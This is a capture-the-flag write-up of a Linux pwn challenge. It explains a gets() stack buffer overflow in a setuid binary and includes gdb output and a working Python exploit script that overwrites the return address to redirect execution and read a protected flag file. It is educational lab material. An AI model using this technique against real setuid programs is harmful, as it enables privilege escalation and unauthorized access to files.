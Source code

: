 # Parcham Pwn second challenge

After logging into the server we see there are two files inside user1 directory\
Also there is a flag file inside flag user directory but we can't read that because we don't have permissions for that\
If we check the files permissions we can see that the code binary's owner is flag user and its suid bit is enabled\
So if we run it (it's world executable because of permissions) we are actually running it as flag user

```
user1@parcham-os-2:~$ ls -l
total 24
-r-sr-xr-x 1 flag  flag  17024 Feb 10 00:13 code
-r--r--r-- 1 user1 user1   435 Feb 10 00:13 code.c

```

Let's see code.c source code

```
user1@parcham-os-2:~$ cat code.c 
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
 
void notCallMe() {
    char *envp[] = { NULL };
    char *argv[] = {"/bin/cat", "/home/flag/flag.txt", NULL};
    execve("/bin/cat", argv, envp);
}

void callMe() {
    char buffer[64];
    printf("%p\n", *notCallMe);
    fflush(stdout);
    gets(buffer);
}
 
int main(int argc, char** argv) {
    callMe();
 
    printf("Exiting...\n");
    exit(0);
}

```


There are two functions\
callMe which declares a buffter and write our input inside it\
notCallMe which reads content of flag file (it's possible because of suid bit enabled and we run it on behalf of flag user)\
But the problem is that notCallMe function is not called inside the compiled binary

If we take a look at callMe function we see there is a simple buffer overflow vulnerability because of using "gets" function\
So if overflow the buffer variable with our input and overwrite the return address of the stack of callMe function, we can change the flow of the program to point to notCallMe function and get the flag



We download the files so we can use debugger 
```
$ scp -P 8025 user1@86.104.33.87:/home/user1/code* .
user1@86.104.33.87's password: 
code                                                                          100%   17KB 377.6KB/s   00:00    
code.c                                                                        100%  435    64.7KB/s   00:00    

```

If we disassmble the file we see it's a 64 bit linux binary
So for addressing, soring and using variables we need our variable to be mutiple of word size (8 bytes or 64 bits)

```
$ objdump -D code | less

0000000000001235 <callMe>:
    1235:       f3 0f 1e fa             endbr64 
    1239:       55                      push   %rbp
    123a:       48 89 e5                mov    %rsp,%rbp
    123d:       48 83 ec 40             sub    $0x40,%rsp
    1241:       48 8d 35 a1 ff ff ff    lea    -0x5f(%rip),%rsi        # 11e9 <notCallMe>
    1248:       48 8d 3d d2 0d 00 00    lea    0xdd2(%rip),%rdi        # 2021 <_IO_stdin_used+0x21>
    124f:       b8 00 00 00 00          mov    $0x0,%eax
    1254:       e8 57 fe ff ff          callq  10b0 <printf@plt>
    1259:       48 8b 05 b0 2d 00 00    mov    0x2db0(%rip),%rax        # 4010 <stdout@@GLIBC_2.2.5>
    1260:       48 89 c7                mov    %rax,%rdi
    1263:       e8 78 fe ff ff          callq  10e0 <fflush@plt>
    1268:       48 8d 45 c0             lea    -0x40(%rbp),%rax
    126c:       48 89 c7                mov    %rax,%rdi
    126f:       b8 00 00 00 00          mov    $0x0,%eax
    1274:       e8 57 fe ff ff          callq  10d0 <gets@plt>
    1279:       90                      nop
    127a:       c9                      leaveq 
    127b:       c3                      retq   

```

So our stack will looks like this
```
bottom of                                             top of
memory                                                memory
              buffer       SFP     RET  
<------   [ 64 * bytes ][8 bytes][    ]
	   
top of                                              bottom of
stack                                                 stack
```


1) First The return address (RET) is pushed into stack
2) Second the Base pointer or (Stack Frame Pointer SPF) is pushed into stack and because our word size is 8 bytes it will took 8 bytes in the stack
3) Third the stack pointer (%rsp) is subtracted by 0x40 (64 in decimal) which is the size of our buffer

So after calling the stack we are 72 bytes away from return address\
If we start fuzzing the binary with input size of 72 bytes we will get segmentation fault because of smashing the stack

```
python3 -c "print('A'*72)" > payload
$ gdb code

gdb-peda$ r < payload 
Starting program: /home/kourosh/CTF/parcham/Pwn/SecondChallenge/code < payload
0x55b5f75481e9

Program received signal SIGBUS, Bus error.
[----------------------------------registers-----------------------------------]
RAX: 0x7fff32f83970 --> 0x41414141414141b1 
RBX: 0x55b5f75482b0 (<__libc_csu_init>: endbr64)
RCX: 0x7f455f991980 --> 0xfbad2088 
RDX: 0x0 
RSI: 0x55b5f84e46b1 --> 0x41414141414141c1 
RDI: 0x7f455f9944d0 --> 0x0 
RBP: 0x4141414141414141 ('AAAAAAAA')
RSP: 0x7fff32f839c0 --> 0x7fff32f83ac8 --> 0x7fff32f84de9 ("/home/kourosh/CTF/parcham/Pwn/SecondChallenge/code")
RIP: 0x55b5f7548204 (<notCallMe+27>:    mov    QWORD PTR [rbp-0x20],rax)
R8 : 0x7fff32f83970 --> 0x41414141414141b1 
R9 : 0x0 
R10: 0x55b5f7549023 --> 0x6e6974697845000a ('\n')
R11: 0x246 
R12: 0x55b5f7548100 (<_start>:  endbr64)
R13: 0x7fff32f83ac0 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10a86 (carry PARITY adjust zero SIGN trap INTERRUPT direction OVERFLOW)

gdb-peda$ info frame
Stack level 0, frame at 0x4141414141414151:
 rip = 0x55b5f7548204 in notCallMe; saved rip = <not saved>
 Outermost frame: Cannot access memory at address 0x4141414141414149
 Arglist at 0x7fff32f839b8, args: 
 Locals at 0x7fff32f839b8, Previous frame's sp is 0x4141414141414151
Cannot access memory at address 0x4141414141414141

```

we see that the return address is changed to 0x4141414141414141 which is the 'A' characters we entered and they overflowed the buffer and changed the return address\
So we should change the address of return address to point to the notCallMe function\
The address of function is printed before doing anything but it's not constant\
If it was constant we could craft our payload with this command and execute the program with it

```
$ python3 -c "print('A'*72+<inverse hexadecimal address>)" | ./code
```


For example if our address is like this **0xdeadbeef**\
We should write the payload like this
```
python3 -c "print('A'*72+'\xef\xbe\xad\xde')" | ./code
```
We inverted the address because we are using stack


We have a problem here, our address is not constant so we can't craft our payload before running the program\
We should craft the payload in runtime after printing the notCallMe funcion address

One of the ways is using pwntools in python but we don't have pwntools installed on the remote server so this on fails\
Second way is to use pwntools through ssh on the remote server but pwntools is looking for python binary which does not exist on the server and there is only python3 so this one failed too\
The thrid way which I used was to study pwntools to understand what exactly is being done and reimplement it in python

I used python subprocess

1) we execute the binary with subprocess
2) Grab the notCallMe address after printing
3) revert the address in format which we can use in our payload
4) craft the main payload and write it in stdin of the program

```
import subprocess
PIPE = subprocess.PIPE

def exploit():

    proc = subprocess.Popen(['/home/user1/code'],stdout=PIPE, stdin=PIPE, stderr=PIPE)
    
    line = proc.stdout.readline()
        
    print(line.rstrip())
    address = line.rstrip().decode()
    address_size = len(address)

    payload = b'A' * 72
    new_address = b''

    for i in range(address_size, 2, -2):
        new_address += bytes.fromhex(address[i-2:i])
    payload += new_address

    print(payload)

    stdout_data = proc.communicate(input=payload)[0]
    print(stdout_data)

exploit()

```

After executing the above exploit the return address is changed and notCallMe function is called and we got the flag
```
user1@parcham-os-2:/dev/shm$ python3 ./.e.py
b'0x55aa556ba1e9'
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xe9\xa1kU\xaaU'
b'parcham{5654794b7e0e5b4a75e07fa7b515b295}\n'
```

First line is the address printed by the program (b'0x55aa556ba1e9')\
Second line is tha payload (b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xe9\xa1kU\xaaU')\
Third line is the flag **(b'parcham{5654794b7e0e5b4a75e07fa7b515b295}\n')**

Finish
By KRypton.

